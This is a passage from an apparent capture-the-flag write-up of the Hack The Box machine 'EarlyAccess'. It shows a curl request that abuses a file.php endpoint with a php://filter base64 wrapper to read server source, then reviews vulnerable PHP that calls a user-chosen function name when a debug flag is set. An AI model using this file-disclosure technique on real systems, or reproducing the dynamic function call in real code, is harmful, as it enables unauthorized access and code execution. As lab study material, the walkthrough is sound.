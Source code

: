 This gives us a file path. Just like we did on [Timing](https://www.hackthebox.com/home/machines/profile/421) we can base64 encode the file to retrieve it:

```sh
┌──(root💀kali)-[~/htb/earlyaccess]
└─# curl http://dev.earlyaccess.htb/actions/file.php?filepath=php://filter/convert.base64-encode/resource=/var/www/earlyaccess.htb/dev/actions/hash.php
<h2>Executing file:</h2>
<p>php://filter/convert.base64-encode/resource=/var/www/earlyaccess.htb/dev/actions/hash.php</p>
<br>PD9waHAKaW5jbHVkZV9vbmNlICIuLi9pbmNsdWRlcy9zZXNzaW9uLnBocCI7CgpmdW5jdGlvbiBoYXNoX3B3KCRoYXN
oX2Z1bmN0aW9uLCAkcGFiAgICBvYl9lbmRfY2xlYW4oKTsKICAgIHJldHVybiAkaGFzaDsKfQoKdHJ5CnsKICAgIGlmKGlz
<SNIP>
```

Decode the base64:

```sh
──(root💀kali)-[~/htb/earlyaccess]
└─# echo "PD9waHAKaW5jbHVkZ9zZXNzaW9uLnB<SNIP>ICByZXR1cm47Cn0KPz4=" | base64 -d
```

## Hash File Code Review

Now we have the hash.php file to look at. The interesting part is this function:

```php
function hash_pw($hash_function, $password)
{
    // DEVELOPER-NOTE: There has gotta be an easier way...
    ob_start();
    // Use inputted hash_function to hash password
    $hash = @$hash_function($password);
    ob_end_clean();
    return $hash;
}
```

We can provide the password and the function used to hash it. Then further down in the script:

```php
if(isset($_REQUEST['hash_function']) && isset($_REQUEST['hash']) && isset($_REQUEST['password']))
{
    // Only allow custom hashes, if `debug` is set
      if($_REQUEST['hash_function'] !== "md5" && $_REQUEST['hash_function'] !== "sha1" && !isset($_REQUEST['debug']))
        throw new Exception("Only MD5 and SHA1 are currently supported!");
        {
                $hash = hash_pw($_REQUEST['hash_function'], $_REQUEST['password']);

                $_SESSION['verify'] = ($hash === $_REQUEST['hash']);
                header('Location: /home.php?tool=hashing');
                return;
            }
        }
```
